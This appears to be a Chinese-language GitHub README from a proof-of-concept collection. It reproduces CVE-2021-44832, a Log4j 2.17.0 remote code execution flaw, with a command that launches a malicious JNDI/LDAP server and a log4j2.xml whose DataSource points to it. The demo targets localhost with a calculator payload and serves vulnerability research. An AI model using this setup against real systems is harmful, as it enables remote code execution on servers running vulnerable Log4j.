



# Log4j 2.17.0 RCE -- CVE-2021-44832

## 复现

1. 启动恶意jndi server

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -A "127.0.0.1"
```



2. 修改config/log4j2.xml中的DataSource部分为你生成的jndi地址

```
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="error">
    <Appenders>
        <JDBC name="databaseAppender" tableName="dbo.application_log">
            <DataSource jndiName="ldap://127.0.0.1:1389/nvrcl6" />
            <Column name="eventDate" isEventTimestamp="true" />
            <Column name="level" pattern="%level" />
            <Column name="logger" pattern="%logger" />
            <Column name="message" pattern="%message" />
            <Column name="exception" pattern="%ex{full}" />
        </JDBC>
    </Appenders>
    <Loggers>
        <Root level="warn">
            <AppenderRef ref="databaseAppender"/>
        </Root>
    </Loggers>
</Configuration>
```

配置文件部署到自己的http服务器上

3. 修改Poc

修改为http服务器上的部署的配置文件



4. 执行



## Log4shell Topic

https://github.com/cckuailong/reapoc/tree/main/Topic/Log4j

## Welcome to contribute in reapoc

https://github.com/cckuailong/reapoc
